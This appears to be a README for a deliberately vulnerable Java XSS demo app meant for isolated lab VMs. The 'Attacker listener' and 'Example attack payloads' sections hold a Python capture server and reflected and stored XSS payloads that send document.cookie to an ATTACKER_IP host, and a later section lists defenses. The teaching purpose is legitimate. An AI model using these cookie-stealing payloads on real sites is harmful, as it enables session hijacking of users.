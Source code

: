 # vuln-xss-app — Quick README (summary)

**Purpose:** Local, controlled vulnerability demo for Cross-Site Scripting (XSS). Use in isolated VMs only for education and assignments.

> ⚠️ Safety: Run this only in machines and networks you control. Use fake/demo data only (e.g. `session=FAKE_FOR_DEMO`). Do not target external systems.

---

## What’s included

- `pom.xml` — Maven project
- `src/main/java/...` — Spring Boot server
- `src/main/resources/static/` — front-end HTML (search.html, comments.html, etc.)
- `attacker_listener.py` — simple Python listener (lab-only)
- `DemoCookieController.java` — demo endpoint to set a JS-readable cookie (optional)

---

## Quick setup (Ubuntu VM)

1. Install prerequisites:

```bash
sudo apt update
sudo apt install -y openjdk-17-jdk maven python3 python3-pip
```

2. Build the project (from project root):

```bash
mvn clean install -U
```

3. Run the app (example port 3001):

```bash
mvn spring-boot:run -Dspring-boot.run.arguments="--server.port=3001"
```

---

## Demo cookie (server-side) — `/set-demo-cookie`

Visit `/set-demo-cookie` to set a **demo** cookie that JavaScript can read:

```text
GET /set-demo-cookie
# sets: session=FAKE_FOR_DEMO (HttpOnly=false) — demo-only
```

**Note:** In production session cookies must be `HttpOnly`.

---

## Attacker listener (on attacker VM)

Save and run `attacker_listener.py` on the attacker VM to capture exfil requests:

```
#!/usr/bin/env python3
# attacker_listener.py  (lab-only, improved)
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse, parse_qs

class Handler(BaseHTTPRequestHandler):
    protocol_version = "HTTP/1.1"

    def _log_request(self, method):
        parsed = urlparse(self.path)
        qs = parse_qs(parsed.query)
        print(f"=== {method} received ===")
        print("Path:", parsed.path)
        if qs:
            print("Query string:")
            for k, v in qs.items():
                print(f"  {k}: {v}")
        print("Headers:")
        for k, v in self.headers.items():
            print(f"  {k}: {v}")
        print("="*30)

    def do_HEAD(self):
        # Respond similarly to GET but without a body.
        try:
            self._log_request('HEAD')
            self.send_response(200)
            self.send_header('Content-Type', 'image/gif')
            self.send_header('Content-Length', '43')  # length of the 1x1 GIF below
            self.end_headers()
        except Exception as e:
            print("Error handling HEAD:", e)
            self.send_error(500, "Server Error")

    def do_GET(self):
        try:
            self._log_request('GET')
            self.send_response(200)
            self.send_header('Content-Type', 'image/gif')
            self.end_headers()
            # 1x1 transparent GIF binary (43 bytes)
            self.wfile.write(b'GIF89a\x01\x00\x01\x00\x80\x00\x00\x00\x00\x00\xff\xff\xff!\xf9\x04\x01\x00\x00\x00\x00,\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02D\x01\x00;')
        except BrokenPipeError:
            # client closed connection (common with curl) — ignore silently
            pass
        except Exception as e:
            print("Error handling GET:", e)
            try:
                self.send_error(500, "Server Error")
            except:
                pass

    def do_POST(self):
        try:
            length = int(self.headers.get('content-length', 0))
            body = self.rfile.read(length).decode('utf-8', errors='replace') if length > 0 else ''
            parsed = urlparse(self.path)
            qs = parse_qs(parsed.query)
            print("=== POST received ===")
            print("Path:", parsed.path)
            if qs:
                print("Query string:")
                for k, v in qs.items():
                    print(f"  {k}: {v}")
            print("Headers:")
            for k, v in self.headers.items():
                print(f"  {k}: {v}")
            print("Body:")
            print(body)
            print("="*30)
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b'OK')
        except Exception as e:
            print("Error handling POST:", e)
            try:
                self.send_error(500, "Server Error")
            except:
                pass

    # avoid verbose logging to stderr by BaseHTTPRequestHandler
    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    server = HTTPServer(('0.0.0.0', 9000), Handler)
    print("Listening on http://0.0.0.0:9000 (press Ctrl+C to stop)")
    try:
        server.serve_forever()
    except KeyboardInterrupt:
        print("\nShutting down listener")
        server.server_close()
```

```bash
python3 attacker_listener.py
# listens on 0.0.0.0:9000
```

The listener logs GET/POST requests and prints query params and headers.

---

## Example attack payloads

Replace `ATTACKER_IP` with your attacker VM IP (e.g. `10.0.2.6`) and `APP_PORT` with your app port (e.g. `3001`).

**Reflected (URL) — exfiltrate cookie via img onerror**

```
http://localhost:APP_PORT/search.html?q=<img src=x onerror="new Image().src='http://ATTACKER_IP:9000/log?c='+encodeURIComponent(document.cookie)">
```

(URL-encode if pasting into address bar.)

**Stored (comment)** — post this as a comment body and reload the comments page:

```html
<img
  src="x"
  onerror="new Image().src='http://ATTACKER_IP:9000/log?c='+encodeURIComponent(document.cookie)"
/>
```

**Reliable visual payloads (for demos):**

```html
<img
  src="x"
  onerror="console.log('XSS fired'); document.body.style.border='6px solid red'"
/>
<svg/onload=console.log('svg onload fired')>
```

---

## Testing & verification

1. Start attacker listener on attacker VM: `python3 attacker_listener.py`.
2. On client (victim) browser, visit `/set-demo-cookie` to set `session=FAKE_FOR_DEMO`.
3. Trigger reflected or stored payload. Watch attacker listener log showing `c: ['session=FAKE_FOR_DEMO']`.
4. Capture screenshots: listener output, browser console showing `document.cookie`, Elements showing injected node, and the URL or posted comment with the payload.

---

## Common troubleshooting

- If `curl -I` returns "Unsupported method ('HEAD')", use the updated `attacker_listener.py` that implements `do_HEAD` (included).
- If listener gets no requests: check VM networking (host-only/internal/bridged), firewall (`ufw`), and that listener binds to `0.0.0.0`.
- If `<script>` payloads don’t execute: modern browsers often do not execute `<script>` tags inserted via `innerHTML`. Use `img onerror` or append a `script` element via Console or a demo patch.

---

## Defenses (apply after demo)

1. **Sanitize input** server-side (e.g. `Jsoup.clean(input, Safelist.none())`) before storing or reflecting.
2. **Escape output** on frontend: use `element.textContent = userInput` instead of `innerHTML`.
3. **Set HttpOnly** on session cookies so `document.cookie` cannot read them.
4. **Content-Security-Policy** header to block inline JS (as second line of defense).
5. Add security headers: `X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`, `Referrer-Policy: no-referrer`.

---

## Reverting demo changes (must do)

- Remove `DemoCookieController` or set cookie to `HttpOnly=true`.
- Revert any demo-only front-end code that auto-executes script content from query params or stored comments.
- Replace any `innerHTML` use for untrusted data with `textContent` or sanitized HTML.

*
